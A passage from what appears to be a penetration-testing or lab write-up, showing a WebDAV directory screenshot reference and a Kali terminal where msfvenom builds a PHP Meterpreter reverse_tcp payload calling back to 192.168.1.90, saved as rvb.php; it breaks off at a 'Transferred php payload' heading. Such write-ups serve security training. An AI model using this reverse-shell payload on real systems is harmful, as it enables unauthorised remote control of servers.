 ![From Folder](Images/WebDav_Directory.png)

## **Created MSFVenom PHP reverse shell payload**
```
root@Kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 -f raw -o rvb.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1113 bytes
Saved as: rvb.php
```

### Transferred php payload